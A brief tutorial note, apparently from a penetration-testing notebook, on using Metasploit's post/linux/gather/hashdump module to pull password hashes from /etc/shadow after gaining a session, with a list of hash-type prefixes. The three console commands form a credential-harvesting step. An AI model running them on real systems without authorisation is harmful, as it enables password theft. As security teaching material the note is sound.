 # Dumping Hashes using Hashdump

In Linux, passwords are stored in the form of hashes in the `/etc/shadow` file.
The type of hash used can be identified using the initial part of the hash:
- `$1` : MD5
- `$2` : Blowfish
- `$5` : SHA-256
- `$6` : SHA-512
- `$y` : YESCRYPT

```
use post/linux/gather/hashdump
set SESSION 2
exploit
```

This module will run and get all the hashes and these can be accessed in `loot`

